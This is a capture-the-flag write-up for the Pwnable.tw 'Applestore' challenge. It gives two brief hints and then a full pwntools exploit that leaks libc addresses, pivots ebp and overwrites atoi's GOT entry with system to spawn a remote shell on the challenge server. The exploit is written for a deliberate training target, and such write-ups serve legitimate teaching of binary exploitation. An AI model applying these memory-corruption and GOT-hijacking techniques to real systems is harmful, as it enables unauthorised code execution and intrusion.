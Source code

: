 # Pwnable.tw - Applestore

* Website : Pwnable.tw
* Challenge : Applestore 
* Writeup author : Redhung aka r3dhun9
>Contact :[Philip Chen (Facebook)](https://www.facebook.com/philip.chen.581)

## 0x00
1. Iphone8 is lay on the stack and it can be overwrite.
2. An useful tip: modify **ebp** to get a fake function frame.

## 0x01
Exploit:
```python
from pwn import *

#r = process(['/glibc/2.23/32/lib/ld-2.23.so','./applestore'], env={'LD_PRELOAD':'./libc_32.so.6'})
#r = process('./applestore')
r = remote('chall.pwnable.tw', 10104)
got = p32(0x804b010)
atoi_got = p32(0x804b062)

def get_iphone_8():
    for i in range(20):
        r.recvuntil('>')
        r.send('2')
        r.recvuntil('>')
        r.send('2')
    for i in range(6):
        r.recvuntil('>')
        r.send('2')
        r.recvuntil('>')
        r.send('1')

def leak_libc():
    r.recvuntil('>')
    r.send('5')
    r.recvuntil('>')
    r.send('y')
    r.recvuntil('>')
    r.send('4')
    r.recvuntil('>')
    r.send('y\x00'+got+'\x30'*4+'\x00'*4+'\x00'*4)
    r.recvuntil('27: ')
    leak_got = r.recv()[:4]
    return(int(u32(leak_got)))

def leak_env(env):
    r.send('4')
    r.recvuntil('>')
    r.send('y\x00'+env+'\x30'*4+'\x00'*4+'\x00'*4)
    r.recvuntil('27: ')
    leak = r.recv()[:4]
    return(int(u32(leak)))

def got_hijacking(ebp, system, bin_sh):
    r.send('3')
    r.recvuntil('>')
    r.send('27'+'\x00'*8+ebp+atoi_got)
    r.recvuntil('>')
    r.send(system+';sh\x00')

def main():
    get_iphone_8()
    libc = leak_libc()
    libc_base_offset = 0x49020
    libc_base = libc - libc_base_offset
    system_offset = 0x3a940
    env_offset = 0x1b1dbc
    libc_system = libc_base + system_offset
    libc_env = libc_base + env_offset
    env_leak = leak_env(p32(libc_env))
    print('libc_base: '+hex(libc_base))
    print('libc_system: '+hex(libc_system))
    print('libc_env: '+hex(libc_env))
    print('env_leak: '+hex(env_leak))
    ebp_offset = 0x104
    ebp = env_leak - ebp_offset
    print('ebp: '+hex(ebp))
    bin_sh = p32(0x69622f3b) + p32(0x68732f6e) + '\x00'
    got_hijacking(p32(ebp-12), p32(libc_system), bin_sh)
    r.interactive()

if __name__ == '__main__':
    main()

```
